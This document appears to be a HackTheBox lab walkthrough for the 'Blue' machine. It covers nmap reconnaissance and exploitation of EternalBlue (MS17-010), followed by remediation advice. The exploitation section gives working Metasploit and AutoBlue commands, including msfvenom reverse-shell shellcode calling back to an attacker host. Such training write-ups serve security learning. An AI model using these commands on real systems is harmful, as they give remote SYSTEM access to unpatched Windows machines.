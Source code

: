 # Blue - HackTheBox Walkthrough

## Machine Information
- **Name**: Blue
- **Difficulty**: Easy
- **OS**: Windows
- **Date Completed**: July 2022

## Overview
Blue is an easy Windows machine that focuses on the EternalBlue exploit (MS17-010), a critical vulnerability in Microsoft SMB protocol.

## Reconnaissance

### Initial Nmap Scan
```bash
nmap -sC -sV -oN blue.nmap 10.10.10.40
```

Results show:
- Port 135/tcp - msrpc
- Port 139/tcp - netbios-ssn  
- Port 445/tcp - microsoft-ds
- Port 49152-49157/tcp - msrpc

### Vulnerability Scanning
```bash
nmap --script smb-vuln* -p445 10.10.10.40
```

Key findings:
- **MS17-010 (EternalBlue)** - VULNERABLE
- SMBv1 enabled

## Exploitation

### EternalBlue Exploit
Using Metasploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set payload windows/x64/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit
```

### Alternative: Manual Exploitation
```bash
# Clone the exploit
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010

# Generate shellcode
msfvenom -p windows/x64/shell_reverse_tcp LHOST=your_ip LPORT=4444 -f raw > sc_x64.bin

# Run the exploit
python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin
```

## Post-Exploitation

### System Access
Once exploited, you gain SYSTEM privileges immediately.

### Flag Locations
- **User Flag**: `C:\Users\haris\Desktop\user.txt`
- **Root Flag**: `C:\Users\Administrator\Desktop\root.txt`

### System Information
```cmd
systeminfo
net user
net localgroup administrators
```

## Key Learning Points
1. EternalBlue is one of the most dangerous Windows exploits
2. SMBv1 should always be disabled
3. Regular patching is critical for Windows security
4. This exploit gives immediate SYSTEM access

## Remediation
- Disable SMBv1 protocol
- Apply MS17-010 security update
- Enable Windows Firewall
- Implement network segmentation
- Regular vulnerability assessments

## Additional Notes
This machine demonstrates why the EternalBlue vulnerability was so devastating in real-world attacks like WannaCry.

---
*Educational purposes only - Always practice ethical hacking.*
